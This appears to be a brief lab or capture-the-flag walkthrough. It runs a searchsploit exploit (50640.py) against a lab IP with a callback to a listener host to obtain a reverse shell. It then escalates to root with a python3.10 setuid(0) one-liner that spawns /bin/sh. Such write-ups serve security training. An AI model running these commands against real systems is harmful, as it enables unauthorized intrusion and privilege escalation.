





We found an exploit:


```
searchsploit -m python/remote/50640.py
python3 50640.py -t 192.168.241.24 -p 8000 -L 192.168.45.166 -P 8000
```

We started a listener with penelope(alias).

Got a shell as app user.

Running linpeas:


To get root:
```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```


